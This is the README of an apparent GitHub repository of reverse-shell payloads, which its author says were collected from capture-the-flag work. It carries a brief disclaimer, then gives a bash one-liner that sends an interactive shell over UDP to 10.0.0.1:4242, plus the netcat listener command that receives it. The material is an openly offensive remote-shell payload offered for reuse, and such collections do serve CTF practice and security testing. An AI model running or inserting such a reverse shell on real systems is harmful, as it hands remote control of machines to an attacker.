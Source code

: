 # reverse-shell-payloads
This repository contains all of the payloads I've used in my CTFs, some of this are not working in latest Operating Systems but in CTF situations, they do the work. Just don't ever use this for something fishy. Please use this payloads at your own risk.

## BASH

- UDP
  ```bash
  sh -i >& /dev/udp/10.0.0.1/4242 0>&0
  ```
  ```
  Listener: nc -u -lvp 4242
  ```
